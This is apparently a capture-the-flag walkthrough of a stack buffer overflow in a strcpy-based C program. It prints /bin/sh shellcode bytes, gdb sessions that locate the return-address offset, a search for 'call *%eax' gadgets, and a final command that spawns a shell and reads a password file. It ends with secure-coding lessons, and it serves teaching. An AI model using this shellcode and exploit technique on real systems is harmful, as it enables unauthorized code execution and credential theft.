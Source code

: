 ## Level 4: avoid unsafe library functions

The source code on this level is surprisingly simple:
```
void fun(char *str) {
  char buf[1024];
  strcpy(buf, str);
}

int main(int argc, char **argv) {
  // ... 
  fun(argv[1]);
  // ... 
}
```

The problem is obvious:
`strcpy` is well-known to be unsafe,
it doesn't check if the destination array has enough space to store the source array.
We can overwrite the memory area beyond `buf` using a long command line argument.

If you recall from the previous challenge,
the return address is stored on the stack after local variables.
The return address is the address where execution will jump to after executing the current function.
By writing past the end of `buf`,
we can overwrite the return address,
and thus make the program jump to where we want.

In the previous challenge we made the program jump to the insecure function `run`.
In this program however there is no such easy target to jump to.
On the other hand,
we can bring insecure code inside,
by injecting it into `buf` through the input string.

We could inject what is commonly known as *shellcode*:
a small piece of binary code that executes `/bin/sh`.

Implementing the shellcode itself is beyond the scope of this article.
It is thoroughly explained in the Smash The Stack article[5], see the resources.
Essentially it is a modified version of this simple C program:
```
#include <stdio.h>

void main() {
   char *name[2];

   name[0] = "/bin/sh";
   name[1] = NULL;
   execve(name[0], name, NULL);
}
```
Writing shellcode is not easy.
After compiling such program,
there is more work to do,
for example you may have to rewrite some of the assembly instructions in a way to eliminate NULL bytes,
as `strcpy` won't copy anything after it sees the first `NULL`.

For our purposes,
we can take the finished shellcode from the Smash The Stack article[5],
and for convenience, let's save it in a shell variable:
```
EGG=$(printf '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh')
```
Next,
we need to find the location of the return address.
The content of the stack will look something like this when we are inside `fun`:
```
0x0000      content of the local variable buf (1024 bytes)
0x0400+?    the return address
```
That is, the return address is somewhere soon after the end of the buffer.
We can find the right position using `gdb`.
When we overwrite the return address with something invalid,
`gdb` will print the address it could not jump to.
We can use this to guess the right location.

We know that the size of `buf` is 1024,
so let's run the program with a longer string:
```
level03@box:/levels/level04$ gdb ./level04
(gdb) run $(python -c 'print "A" * 1100')
Starting program: /levels/levels04/level04 $(python -c 'print "A" * 1100')

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```
We have successfully overwritten the return address with "A"s.
Let's try a shorter string,
something that will help us pinpoint the correct position:
```
(gdb) run $(python -c 'print "A" * 1024 + "abcdefghijklmnopqrstuvwxyz"')
Starting program: /levels/levels04/level04 $(python -c 'print "A" * 1024 + "abcdefghijklmnopqrstuvwxyz"')

Program received signal SIGSEGV, Segmentation fault.
0x706f6e6d in ?? ()
```
That looks like somewhere in the middle of our `abc...` sequence.
We can find the exact position by the ASCII codes of these letters:
```
$ echo abcdefghijklmnopqrstuvwxyz | hexdump -C
00000000  61 62 63 64 65 66 67 68  69 6a 6b 6c 6d 6e 6f 70  |abcdefghijklmnop|
00000010  71 72 73 74 75 76 77 78  79 7a 0a                 |qrstuvwxyz.|
0000001b
```
As `m=6d n=6e o=6f p=70`,
the return address is in the place of the letters `mnop`.
Since there are 12 letters before "m",
we can calculate the target length that we need an input string of length 1024 + 12 + 4,
where the last 4 bytes will be the address we want to jump to.
Let's verify this final number with one last test in `gdb`:
```
(gdb) run $(python -c 'print "A" * 1036 + "mmmm"')
Starting program: /levels/levels04/level04 $(python -c 'print "A" * 1036 + "mmmm"')

Program received signal SIGSEGV, Segmentation fault.
0x6d6d6d6d in ?? ()
```
Wonderful, what next?
Our string should start with the shellcode,
followed by some padding until 1036 bytes,
and finally the address to jump to.
Let's check the size of our shellcode:
```
$ printf $EGG | wc -c
45
```
Thus, we will need 1036 - 45 = 991 padding characters.
But what about the address?
We want to jump to the address of `buf`,
but how can we know that?
Unfortunately, we cannot.
In the past,
the stack used to be at the same address in all programs,
which was easy to exploit,
as you could have a good idea where to jump.
As of today,
thanks to address space layout randomization (ASLR) used in modern operating systems,
the start address of the stack is randomized,
making it extremely difficult to guess the right location.

Luckily,
there are other interesting details that we can use:

- On 32-bit x86 processors,
  a function that returns a pointer value places its result in register `%eax`.

- `strcpy` is the last call in the function `fun`,
  so its returned value remains in `%eax` when the function returns.

- There are `call *%eax` instructions inside the program,
  which are suitable jump targets,
  as they execute the code at the address stored in register `%eax`.

That is,
we can put our shellcode at the start of `buf`,
then when `strcpy` returns,
the address of `buf` will be saved in `%eax`,
and so if we overwrite the return address with any of the `call *%eax` instructions,
then our shellcode at the start of `buf` will get executed.

Find the addresses of `call *%eax` instructions using `objdump`:
```
level03@box:/levels/level04$ objdump -d level04 | grep call.*eax
 8048488:   ff 14 85 1c 9f 04 08    call   *0x8049f1c(,%eax,4)
 80484cf:   ff d0                   call   *%eax
 80485fb:   ff d0                   call   *%eax
```
That's it, we can use either `0x080484cf` or `0x080485fb` as the address to jump to:
```
level03@box:/levels/level04$ ./level04 $EGG$(python -c 'print "A" * 991')$(printf '\xcf\x84\x04\x08')
/levels/level04 $ cat /home/level04/.password 
paegeiqu
```

## Lessons to learn

- Don't use unsafe library functions like `strcpy`.

- Always make sure that arrays cannot be written beyond their boundaries.

- Always validate user input, and set reasonable limits to input length.

